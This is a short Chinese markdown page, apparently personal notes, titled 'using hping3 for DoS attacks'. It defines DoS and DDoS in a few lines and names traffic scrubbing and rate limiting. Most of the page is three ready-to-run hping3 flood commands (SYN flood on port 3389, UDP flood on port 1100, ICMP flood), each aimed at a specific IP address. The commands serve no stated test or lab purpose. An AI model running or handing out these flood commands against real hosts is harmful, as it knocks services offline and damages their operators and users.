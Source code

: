 ```yaml
---
layout: default
title: 使用hping3进行dos攻击
---
```




# dos攻击是啥？

> * dos 攻击 deny of service <mark>拒绝服务攻击</mark>，就是给你干崩溃
> 
> * <mark>ddos</mark> distributed dos攻击 <mark>分布式拒绝服务攻击</mark>，找很多人干你崩溃
> 
> * 无法根治
> 
> * ai设备进行<mark>数据清洗</mark>，搞掉部分攻击流量
> 
> * 服务器<mark>限流</mark>，不至于被打崩溃，但业务依然被干扰

# syn泛洪攻击

```bash
hping3 --syn --flood 112.125.18.22 -p 3389
```

# udp防洪攻击

```bash
hping3 --udp --flood 112.125.18.22 -p 1100
```

# icmp泛洪攻击

```bash
hping3 --icmp --flood 112.125.18.22
```





